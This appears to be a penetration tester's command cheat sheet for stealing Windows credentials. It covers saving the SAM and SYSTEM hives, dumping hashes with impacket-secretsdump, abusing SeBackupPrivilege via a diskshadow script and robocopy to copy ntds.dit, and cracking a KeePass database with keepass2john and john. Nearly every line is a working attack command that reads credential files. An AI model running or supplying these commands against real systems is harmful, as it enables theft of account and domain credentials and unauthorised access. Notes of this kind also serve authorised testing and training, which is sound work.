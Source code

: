 	reg save hklm\sam c:\users\jackie\Documents\sam

reg save hklm\system c:\users\jackie\Documents\system
```

```
impacket-secretsdump -sam ./SAM -system ./SYSTEM LOCAL
```

sometime if that doesn't work 
https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/

```
nano raj.dsh

set context persistent nowriters

add volume c: alias raj

create

expose %raj% z:

unix2dos raj.dsh
```

```
cd C:\Temp

upload raj.dsh

diskshadow /s raj.dsh

robocopy /b z:\windows\ntds . ntds.dit
```

```
impacket-secretsdump -ntds ntds.dit -system system local
```

# Dumping SAM Database
```
reg save HKLM\\SAM sam.save
reg save HKLM\\SYSTEM system.save
```

```
impacket-secretsdump -sam ./SAM -system ./SYSTEM LOCAL
```

# Dumping the NTDS.dit Database
```
secretsdump.py -ntds NTDS.dit -system SYSTEM LOCA
```

# kee2pash
```
keepass2john Database.kdbx > john.hash
```

```
john john.hash 
```

```
keepass2 database.kdbx
```
